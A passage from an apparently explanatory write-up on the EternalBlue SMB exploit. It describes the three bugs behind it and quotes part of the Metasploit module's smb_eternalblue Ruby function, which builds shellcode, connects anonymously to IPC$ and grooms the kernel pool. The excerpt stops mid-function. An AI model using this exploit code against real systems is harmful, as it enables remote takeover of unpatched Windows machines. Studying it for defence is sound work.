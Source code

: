 In summary, it's kind of a hybrid between a kernel pool exploit and just a good ol' buffer overflow. This [article](https://www.sentinelone.com/blog/eternalblue-nsa-developed-exploit-just-wont-die/) by SentinelOne describes the components of the exploit. All together, it leverages a series of unfortunate events across three separate bugs. The first bug is a miscalculation of memory allocation between two data structures, opening up for a buffer overflow attack. The buffer overflow is triggerable thanks to the second bug that has to do with handling the size of packets in the SMB protocol, and the third bug ensures that memory for the shellcode can be allocated.

Below is lines 1176-1287 from the Metasploit version:
```ruby
 def smb_eternalblue(process_name, grooms)
    begin
      # Step 0: pre-calculate what we can
      shellcode = make_kernel_user_payload(payload.encoded, process_name)
      payload_hdr_pkt = make_smb2_payload_headers_packet
      payload_body_pkt = make_smb2_payload_body_packet(shellcode)

      # Step 1: Connect to IPC$ share
      print_status('Connecting to target for exploitation.')
      client, tree, sock, os = smb1_anonymous_connect_ipc
    rescue RubySMB::Error::CommunicationError
      # Error handler in case SMBv1 disabled on target
      raise EternalBlueError, 'Could not make SMBv1 connection'
    else
      print_good('Connection established for exploitation.')

      if verify_target(os)
        print_good('Target OS selected valid for OS indicated by SMB reply')
      else
        print_warning('Target OS selected not valid for OS indicated by SMB reply')
        print_warning('Disable VerifyTarget option to proceed manually...')
        raise EternalBlueError, 'Unable to continue with improper OS Target.'
      end

      # cool buffer print no matter what, will be helpful when people post debug issues
      print_core_buffer(os)

      if verify_arch
        print_good('Target arch selected valid for arch indicated by DCE/RPC reply')
      else
        print_warning('Target arch selected not valid for arch indicated by DCE/RPC reply')
        print_warning('Disable VerifyArch option to proceed manually...')
        raise EternalBlueError, 'Unable to continue with improper OS Arch.'
      end

      print_status("Trying exploit with #{grooms} Groom Allocations.")

      # Step 2: Create a large SMB1 buffer
      print_status('Sending all but last fragment of exploit packet')
      smb1_large_buffer(client, tree, sock)

      # Step 3: Groom the pool with payload packets, and open/close SMB1 packets
      print_status('Starting non-paged pool grooming')

      # initialize_groom_threads(ip, port, payload, grooms)
      fhs_sock = smb1_free_hole(true)

      @groom_socks = []

      print_good('Sending SMBv2 buffers')
      smb2_grooms(grooms, payload_hdr_pkt)

      fhf_sock = smb1_free_hole(false)

```